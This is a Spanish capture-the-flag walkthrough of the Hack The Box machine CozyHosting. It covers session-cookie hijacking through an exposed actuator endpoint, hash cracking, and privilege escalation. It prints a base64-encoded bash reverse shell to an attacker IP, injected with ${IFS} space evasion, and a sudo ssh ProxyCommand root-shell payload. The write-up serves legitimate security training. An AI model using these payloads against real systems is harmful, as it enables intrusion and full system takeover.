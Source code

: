 ```yaml
---
layout: single
title: Cozyhosting - Machines - Hack The Box
excerpt: "cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema."
date: 2023-12-22
classes: wide
header:
  teaser: /assets/images/htb-machines-cozyhosting/cozyhosting1.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - BurpSuite
  - Password Cracking
  - Steal Web Session Cookie
  - cozyhosting
    
---
```


![](/assets/images/htb-machines-cozyhosting/cozyhosting1.png)

cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema.

## 1. Enumeración 

Realizamos un escaneo de puertos con Nmap y evidenciamos dos puertos abiertos.

•	SSH (22)

•	HTTP (80)

![](/assets/images/htb-machines-cozyhosting/cozyhosting2.png)

Al ingresar al servicio por el puerto 80, nos redirige al dominio “cozyhosting.htb”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting3.png)

Vamos a agregar este dominio a nuestro archivo "etc/hosts".

![](/assets/images/htb-machines-cozyhosting/cozyhosting4.png)

Ahora navegamos al dominio y empezamos la revisión del sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting5.png)

## 2.	Acceso Inicial

Realizamos la búsqueda de directorio con la herrmaineta “dirsearh” y encontramos el siguiente directorio.

•	/actuator/sessions.

![](/assets/images/htb-machines-cozyhosting/cozyhosting6.png)

Al ingresar al directorio, observamos que contiene los JESSIONID de los usuarios autenticados.

![](/assets/images/htb-machines-cozyhosting/cozyhosting7.png)

Procedemos a utilizar la Cookie de sesión para intentar autenticarnos en el sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting8.png)

Luego de iniciar sesión, observamos que existe una funcionalidad que permite una conexión SSH. Procedemos a ingresar la IP de nuestro equipo y un usuario cualquiera. 

![](/assets/images/htb-machines-cozyhosting/cozyhosting9.png)

Luego interceptamos la petición con BurpSuite.

![](/assets/images/htb-machines-cozyhosting/cozyhosting10.png)

Creamos un reverse Shell y lo codificamos en base64.

![](/assets/images/htb-machines-cozyhosting/cozyhosting11.png)

Ahora vamos a necesitar convertir la carga útil en un formato sin espacios, es decir reemplazar los espacios por ${IFS%??}. Para ello vamos a utilizar el siguiente servicio en línea.

•	https://www.urlencoder.org/es.

•	Carga útil: 	echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvNzc3NyAwPiYxCg==" | base64 -d | bash.

![](/assets/images/htb-machines-cozyhosting/cozyhosting12.png)

Nos ponemos a la escucha en nuestra maquina atacante por el mismo puerto que configuramos en nuestro reverse Shell. Ahora enviamos la petición desde BurpSuite y esperamos recibir la conexión.

![](/assets/images/htb-machines-cozyhosting/cozyhosting13.png)

Observamos un archivo con extensión “.jar”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting14.png)

Vamos a descargarlo e intentar leer el contenido. Iniciamos un servidor web en el equipo víctima.

![](/assets/images/htb-machines-cozyhosting/cozyhosting15.png)

Ahora descargamos el contenido del archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting16.png)

Para poder leer el contenido del archivo, vamos a necesitar instalar en nuestra maquina atacante “JD-GUI” desde la siguiente página.

•	https://java-decompiler.github.io.

Luego de la instalacion, procedemos a leer el archivo descargado. Identificamos credenciales para la base de datos PostgresSQL.

![](/assets/images/htb-machines-cozyhosting/cozyhosting17.png)

Iniciamos sesión en el equipo víctima con estas credenciales, listamos el contenido de la tabla users y encontramos dos hashes.

![](/assets/images/htb-machines-cozyhosting/cozyhosting18.png)

Guardamos esos hash en un archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting19.png)

Ahora con la herramienta Hashcat vamos a intentar crackear el hash de admin.

![](/assets/images/htb-machines-cozyhosting/cozyhosting20.png)

Pudimos obtener la contraseña.

![](/assets/images/htb-machines-cozyhosting/cozyhosting21.png)

Ahora listamos los usuarios de la maquina y observamos el usuario “Josh”. Vamos a utilizar la contraseña junto con el usuario Josh para intentar cambiar de sesión.

Ahora que estamos en la sesión del usuario Josh, vamos a obtener nuestra primera flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting22.png)

Nos vamos a conectar por ssh con las mismas credenciales solo para tener mejor control del equipo y una Shell más interactiva.

![](/assets/images/htb-machines-cozyhosting/cozyhosting23.png)


## 3. Escalada de privilegios

Identificamos que comando puede ejecutar el usuario actual con permisos de root.

Existe una carga útil en GTFOBINS que permite generar un shell interactivo a través de la opción ProxyCommand.

•	https://gtfobins.github.io/gtfobins/ssh/#sudo

•	Carga útil: ssh -o ProxyCommand=';sh 0<&2 1>&2' x

Ahora solo nos queda obtener nuestra segunda flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting24.png)
